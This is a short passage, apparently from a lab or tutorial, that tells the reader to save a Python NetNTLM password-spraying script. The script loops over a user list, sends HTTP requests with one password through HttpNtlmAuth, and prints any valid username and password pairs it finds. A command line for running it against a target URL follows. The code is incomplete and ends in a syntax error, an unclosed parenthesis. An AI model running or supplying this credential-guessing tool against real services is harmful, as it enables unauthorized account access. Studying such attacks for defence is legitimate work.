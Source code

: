 
Create the following Python script and save it as ntlm_passwordspray.py. The script is used to authenticate using NetNTLM.
```Script
def password_spray(self, password, url):
    print ("[*] Starting passwords spray attack using the following password: " + password)

    count = 0

    for user in self.users:
 
        response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))

        if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
            print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
            count += 1
            continue
        if (self.verbose):
            if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                print ("[-] Failed login with Username: " + user)
    print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found"
```

```Script
python ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>
```
